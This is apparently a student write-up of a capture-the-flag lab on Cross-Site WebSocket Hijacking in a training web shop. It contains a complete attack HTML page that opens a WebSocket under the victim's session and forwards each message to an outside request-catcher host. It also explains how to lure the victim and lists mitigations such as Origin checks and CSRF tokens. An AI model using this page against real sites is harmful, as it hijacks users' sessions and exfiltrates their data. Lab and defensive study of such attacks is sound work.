 # Cowbell Shop 4 - CSWSH

## Challenge

Hijack another user WebSocket connection with an CSRF attack.

## Answer

### Explain the security problem 

* Web Sockets do not adhere to the same origin policy
* Any domain can open a web socket connection to another domain and send/receive data

### Explain your attack. \(exploit, screenshot, hacking journal\)  

Step 1-3\) Setup Hacking-Environment.  Open a Request Catcher and Theia Web IDE

Step 4\)  Changed the `change_me.html` file to:

{% code title="change\_me.html" %}
```markup
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>CSWSH</title>
  </head>
  <body>
    <h1>CSWSH</h1>
    <p>You got hacked!</p>
    <script type="text/javascript">
      var socket = new WebSocket(
        "wss://1b747ea1-3a09-4acc-8d8a-031e2fd2e267.idocker.vuln.land/socket.io/?EIO=3&transport=websocket"
      );
      socket.onopen = function(openEvent) {
        console.log(openEvent);
      };
      socket.onmessage = function(msgEvent) {
        console.log(msgEvent.data);
        var oReq = new XMLHttpRequest();
        oReq.open(
          "POST",
          "https://9a471a99-a077-47e4-a454-f7e6676acc1f.idocker.vuln.land/extractedData"
        );
        oReq.send(JSON.stringify(msgEvent.data));
      };
      socket.onerror = function(errEvent) {
        console.log(errEvent);
      };
    </script>
  </body>
</html>
```
{% endcode %}

Step 5\) Open webshop in new Incognito Tab and login in as the attacker

Step 6\) Pass the attackers url `https://16dfe2ff-d02a-4a24-8d06-21e07055a9af.idocker.vuln.land/change_me.html`  to the victim. Victim opens the url and gets the following output:  


![](../../.gitbook/assets/image%20%28374%29.png)

![](../../.gitbook/assets/image%20%28375%29.png)

Step 8\) check in the Request Catcher logs the flag received from the victim

![](../../.gitbook/assets/image%20%28376%29.png)



### Explain mitigation \(remedy\)

* Check the Origin header of the WebSocket handshake request on the server, since that header was designed to protect the server against attacker-initiated cross-site connections of victim browsers!
* Use **session-individual random tokens \(like CSRF-Tokens\)** on the handshake request and verify them on the server.
  * Embed the token into one of the HTML pages of your web application.
  * Create a REST endpoint where your client can fetch the token



### Answers

#### Are the CORS errors a problem for the attacker?

No, since WebSockets are not subordinated to CORS 

#### Explain the meaning of the errors

The access to the `/extractedData` target site from the `origin` is not allowed, since there is not Acces-Control-Allow-Origin HTTP Response Header present on the target site and therefore it violates the CORS policy

#### How do we mitigate the risk of a web socket based XSRF attack?

See above \(CSRF-Tokens with validation on server\)

